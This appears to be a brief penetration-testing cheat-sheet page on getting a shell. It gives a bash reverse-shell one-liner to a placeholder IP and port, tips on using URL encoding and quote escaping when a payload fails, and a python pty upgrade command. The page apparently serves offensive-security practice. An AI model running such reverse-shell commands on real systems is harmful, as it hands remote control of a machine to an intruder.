 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 



## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

> if it is a bash reverse shell, e.g. `bash -i >& /dev/tcp/10.10.x.x/1234 0>&1` try precede it with `bash -c` 

> try URL encoding

> quotations conflict, how to deal with it ?? 

    # embrace the whole payload with double qoutes, then escape the inside ones
    
    # there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```





# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'